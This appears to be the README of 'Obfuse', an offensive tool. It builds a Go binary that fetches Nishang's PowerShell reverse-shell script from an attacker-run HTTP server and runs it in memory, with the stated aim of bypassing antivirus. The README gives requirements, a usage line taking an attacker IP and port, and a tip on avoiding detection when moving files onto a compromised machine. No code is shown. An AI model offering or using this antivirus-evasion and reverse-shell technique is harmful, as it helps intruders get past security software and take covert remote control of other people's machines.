 ## What is Obfuse?
Obfuse is just a simple bash script that combines different methods into one executable, compiled with golang. It uses **Invoke-PowerShellTcp.ps1** from [Nishang](https://github.com/samratashok/nishang) for reverse connection which will be served with python http module, then it uses a compiled go binary which will download the script and execute it in memory. The purpose of Obfuse is to bypass AV.

## Requirements
- Metasploit Framework (msfconsole)
	- Available on the official repo **https://github.com/rapid7/metasploit-framework**
- Golang (GO)
	- You can install it by executing **apt-get install golang**
- Python (http server)
	- You can install it by executing **apt-get install python2 or python3**

## Usage
> $ ./obfuse.sh attacker_ip attacker_port

## Tips
Use the powershell method to download files if you already have access on the target machine because certutil might already be blocked and it might trigger an alert.

## ToDo
- Choose between msfconsole or empire-cli
- Choose different payload delivery methods not only powershell

## Feedback and issues?
If you have any feedback, anything that you want to see implemented or if you're running into issues using Obfuse, please feel free to file an issue on [https://github.com/spenkk/obfuse/issues](https://github.com/spenkk/obfuse/issues)
